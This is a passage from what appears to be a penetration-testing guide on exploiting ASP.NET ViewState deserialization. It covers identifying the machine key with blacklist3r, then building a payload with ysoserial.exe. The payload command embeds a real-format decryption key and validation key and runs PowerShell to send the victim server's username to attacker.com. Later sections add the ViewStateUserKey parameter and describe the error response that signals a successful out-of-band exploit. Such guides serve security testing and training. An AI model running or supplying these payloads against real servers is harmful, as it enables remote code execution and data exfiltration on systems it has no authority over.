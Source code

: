 ```bash
cd badsecrets
python examples/blacklist3r.py --viewstate JLFYOOegbdXmPjQou22oT2IxUwCAzSA9EAxD6+305e/4MQG7G1v5GI3wL7D94W2OGpVGrI2LCqEwDoS/8JkE0rR4ak0= --generator B2774415
```

![https://user-images.githubusercontent.com/24899338/227043316-13f0488f-5326-46cc-9604-404b908ebd7b.png](https://user-images.githubusercontent.com/24899338/227043316-13f0488f-5326-46cc-9604-404b908ebd7b.png)

Once a valid Machine key is identified, **the next step is to generate a serialized payload using** [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net)

```
ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName" --path="/content/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="F6722806843145965513817CEBDECBB1F94808E4A6C0B2F2"  --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"
```

If you have the value of `__VIEWSTATEGENERATOR` you can try to **use** the `--generator` parameter with that value and **omit** the parameters `--path` and `--apppath`

![](https://notsosecure.com/sites/all/assets/group/nss_uploads/2019/06/4.2.png)

A successful exploitation of the ViewState deserialization vulnerability will lead to an out-of-band request to an attacker-controlled server, which includes the username. This kind of exploit is demonstrated in a proof of concept (PoC) which can be found through a resource titled "Exploiting ViewState Deserialization using Blacklist3r and YsoSerial.NET". For further details on how the exploitation process works and how to utilize tools like Blacklist3r for identifying the MachineKey, you can review the provided [PoC of Successful Exploitation](https://www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/#PoC).

### Test Case 6 – ViewStateUserKeys is being used

The **ViewStateUserKey** property can be used to **defend** against a **CSRF attack**. If such a key has been defined in the application and we try to generate the **ViewState** payload with the methods discussed till now, the **payload won’t be processed by the application**.\
You need to use one more parameter in order to create correctly the payload:

```bash
--viewstateuserkey="randomstringdefinedintheserver"
```

### Result of a Successful Exploitation <a href="#poc" id="poc"></a>

For all the test cases, if the ViewState YSoSerial.Net payload works **successfully** then the server responds with “**500 Internal server error**” having response content “**The state information is invalid for this page and might be corrupted**” and we get the OOB reques.

Check for [further information here](<https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/deserialization/[**https:/www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/**](https:/www.notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/)/README.md>)

### Dumping ASP.NET Machine Keys via Reflection (SharPyShell/SharePoint ToolShell)
